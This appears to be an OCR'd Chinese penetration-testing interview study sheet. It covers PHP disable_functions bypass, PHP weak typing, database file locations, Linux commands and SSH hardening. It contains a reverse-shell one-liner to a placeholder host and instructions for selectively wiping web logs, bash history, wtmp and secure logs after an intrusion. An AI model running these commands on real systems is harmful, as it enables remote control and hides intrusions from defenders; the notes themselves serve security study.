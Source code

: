 安全模式下绕过php的disable fuction
DL函数，组件漏洞，环境变量。

PHP弱类型
== 在进行比较的时候，会先将字符串类型转化成相同，再比较

如果比较一个数字和字符串或者比较涉及到数字内容的字符串，则字符串会被转换成数值并且比较按照数值来进行

0e开头的字符串等于0

* 数据库

各种数据库文件存放的位置

mysql:/usr/local/mysql/data/ 

C:\ProgramData\MySQL\MySQL Server 5.6\Data\ 

oracle:$ORACLE_BASE/oradata/$ORACLE_SID/

* 系统

如何清理日志

meterpreter: clearev

入侵 Linux 服务器后需要清除哪些日志？

web日志，如apache的access.log,error.log。 直接将日志清除过于明显,一般使用sed进行定向清除

e.g. sed -i -e ‘/192.169.1.1/d’

history命令的清除，也是对~/.bash_history进行定向清除

wtmp日志的清除，/var/log/wtmp

登录日志清除 /var/log/secure

* LINUX

查看当前端口连接的命令有哪些？netstat 和 ss 命令的区别和优缺点
```
netstat -antp` `ss -l
```


ss的优势在于它能够显示更多更详细的有关TCP和连接状态的信息，而且比netstat更快速更高效。

反弹 shell 的常用命令？一般常反弹哪一种 shell？为什么?
```
bash -i>&/dev/tcp/x.x.x.x/4444 0>&1
```

通过Linux系统的/proc目录 ，能够获取到哪些信息，这些信息可以在安全上有哪些应用？
```
ls /proc
```

系统信息，硬件信息，内核版本，加载的模块，进程

linux系统中，检测哪些配置文件的配置项，能够提升SSH的安全性。
```
/etc/ssh/sshd___config iptables配置
```

